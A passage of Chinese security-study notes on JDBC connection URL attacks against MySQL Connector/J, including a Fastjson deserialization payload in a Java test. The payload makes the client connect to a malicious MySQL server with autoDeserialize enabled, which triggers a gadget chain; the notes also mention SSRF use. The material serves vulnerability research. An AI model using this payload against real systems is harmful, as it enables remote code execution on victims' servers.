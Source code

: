 3. 本人在复现时，所使用的 mysql-connector/j 5.1.40 版本，对该参数是默认开启的：
    ![image-20241101105942486](JDBC/image-20241101105942486.png)

4. 除了读取文件，由于底层它是使用 URL 类发起的文件请求，那么还可以使用其他请求，这无疑扩大了利用面，详见：

    > https://blog.csdn.net/fnmsd/article/details/117436182

    还可以当 SSRF 使用。

TODO：su18 提到的利用场景学习

## 5. Fastjson + JDBC 组合拳

1. JDBC Connection URL Attack 的利用要求有 URL 的控制权，但是如果再向前一步，如果有**发起 JDBC 的控制权呢？**基于上述思路，将其和其它的反序列化漏洞结合，有时就可以绕过一些过滤。
    通过 Fastjson 来发起 JDBC 连接，然后 JDBC 去连接恶意 MySQL 地址。
2. 这里就和 Fastjson 反序列化漏洞结合。
3. 客户端要有 mysql-connector-java 依赖、Fastjson 依赖和可以打的链依赖（这里以 CC 为例）。同时客户端有一个 Fastjson 反序列化口：
    ```java
    @Test
    public void testFastjsonJDBC() throws Exception {
    String payload = "{\n" +
        "\t\"name\": {\n" +
        "\t\t\"@type\": \"java.lang.AutoCloseable\",\n" +
        "\t\t\"@type\": \"com.mysql.jdbc.JDBC4Connection\",\n" +
        "\t\t\"hostToConnectTo\": \"127.0.0.1\",\n" +
        "\t\t\"portToConnectTo\": 3306,\n" +
        "\t\t\"info\": {\n" +
        "\t\t\t\"user\": \"EndlessShw\",\n" +
        "\t\t\t\"password\": \"\",\n" +
        "\t\t\t\"statementInterceptors\": \"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor\",\n" +
        "\t\t\t\"autoDeserialize\": \"true\",\n" +
        "\t\t\t\"NUM_HOSTS\": \"1\"\n" +
        "\t\t}\n" +
        "\t}\n";
    JSON.parseObject(payload);
    }
    ```

4. 构造恶意 MySQL 服务器，这里还是用的 [MySQL_Fake_Server](https://github.com/fnmsd/MySQL_Fake_Server)。